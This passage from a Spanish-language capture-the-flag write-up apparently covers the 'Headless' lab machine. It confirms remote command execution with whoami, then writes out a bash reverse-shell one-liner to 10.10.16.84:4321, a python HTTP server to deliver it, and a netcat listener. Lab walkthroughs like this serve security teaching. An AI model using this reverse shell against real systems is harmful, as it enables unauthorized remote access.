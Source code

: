 Capturo la petición y trato de ejecutar whoami para ver si hay RCE. 

![Headless 10](/assets/images/2024-20-04-Headless/headless_13.png)

Veo que el comando se ejecuto y ha devuelto el usuario "dvir".

![Headless 11](/assets/images/2024-20-04-Headless/headless_14.png)

Para ganar acceso a la máquina crearé un archivo en bash con la reverse shell. 

```shell
#!/bin/bash 
bash -c 'bash -i &>/dev/tcp/10.10.16.84/4321 <&1'
```

Ahora levanto un servidor para poder descargar ese archivo desde la máquina víctima. 

```shell
python3 -m http.server 80         

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Me pongo en escucha con netcat por el puerto que he especificado en el script anterior.

```shell
> nc -nlvp 4321
```

![Headless 12](/assets/images/2024-20-04-Headless/headless_15.png)

